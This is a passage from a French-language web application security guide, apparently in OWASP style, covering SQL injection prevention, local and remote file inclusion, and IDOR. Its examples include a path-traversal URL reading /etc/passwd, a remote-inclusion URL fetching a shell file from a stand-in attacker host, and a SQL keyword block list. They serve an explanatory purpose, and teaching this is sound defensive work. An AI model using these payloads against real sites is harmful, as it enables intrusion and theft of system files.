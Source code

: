 #### **Conséquences** :  
- Vol ou suppression de données, exécution de commandes système.  

#### **Prévention** :  
- **Requêtes préparées** :  
  - Java : `PreparedStatement`.  
  - PHP : `$pdo->prepare()`.  
- **Filtrage des entrées** : Bloquer les mots-clés SQL (ex. : `DROP`, `UNION`).  
- **Utilisation d’ORM** : Hibernate (Java), Doctrine (PHP).  

#### **Outils** :  
- **SQLMap** pour automatiser les tests.  
- **OWASP SQLi Validator**.  

---

### **A3. Exécution de fichiers malicieux (Arbitrary File Execution)**  
#### **Description** :  
Inclusion ou exécution de fichiers externes ou locaux via des vulnérabilités dans le code.  

#### **Exemples** :  
1. **Local File Inclusion (LFI)** :  
   ```url
   http://victime.com/page.php?page=../../etc/passwd
   ```  
2. **Remote File Inclusion (RFI)** :  
   ```url
   http://victime.com/page.php?page=http://attaquant.com/shell.txt
   ```  

#### **Conséquences** :  
- Exécution de code arbitraire, accès au système.  

#### **Prévention** :  
- Éviter les inclusions dynamiques non sécurisées (ex. : `include($_GET['page'])`).  
- Utiliser des listes blanches pour les fichiers autorisés.  

#### **Outils** :  
- **WebScarab** pour tester les inclusions.  

---

### **A4. Référence directe non sécurisée à un objet (IDOR)**  
#### **Description** :  
Accès à des ressources via des identifiants prévisibles ou non vérifiés.  

#### **Exemple** :  
```url
http://victime.com/document.php?id=123 → id=124
```  
